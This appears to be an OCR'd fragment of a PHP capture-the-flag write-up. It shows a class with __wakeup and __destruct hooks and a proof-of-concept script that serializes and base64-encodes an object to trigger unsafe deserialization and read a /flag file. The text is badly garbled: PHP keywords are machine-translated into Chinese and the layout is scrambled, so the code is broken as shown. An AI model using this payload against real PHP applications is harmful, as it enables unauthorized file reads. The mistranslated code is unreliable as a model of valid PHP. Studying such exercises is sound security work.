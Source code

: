 
|

    
    
      
    class  Game { public $username ; 公共$password ; 公共$choice ; 公共$register ;  
            
            
            
            
      
        公共  $file ; 公共$ 文件名；公开$content ; 公共函数__construct (  
            
            
          
          )  
         { $this ->username= 'user' ; $this ->password= '用户' ;     }  
              
              
      
      
        公共 函数 __wakeup () { if (md5( $this ->register)=== "21232f297a57a5a743894a0e4a801fc3" ){     // admin $this ->choice= new login( $this ->file, $this ->filename, $this ->content) ;         } else { $this ->choice = new register();         }     }公共函数__destruct (  
              
                  
      
                  
      
      
          ) { $this ->choice->checking( $this ->username, $this ->password);     }  
              
      
      
    }  
      
    类 登录{公共$file ; 公共$ 文件名；   公开$content ; }  
           
           
           
      
      
    class  Open { function open ( $filename , $content ) {    }} $poc = new Game(); $poc ->username = "admin" ; $poc ->password = "admin" ; $poc ->register = "admin" ; $poc ->file = new Open(); $poc ->filename = "xxx" ; $poc ->content = "n\l /flag" ; echo base64_encode(serialize( $poc ));  
           
      
      
      
      
      
      
      
      
      
      
      
  
---|---  
  
`  
`

`![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210826084304.png)`

# `PHP原生文件操作类`

## `声压级`

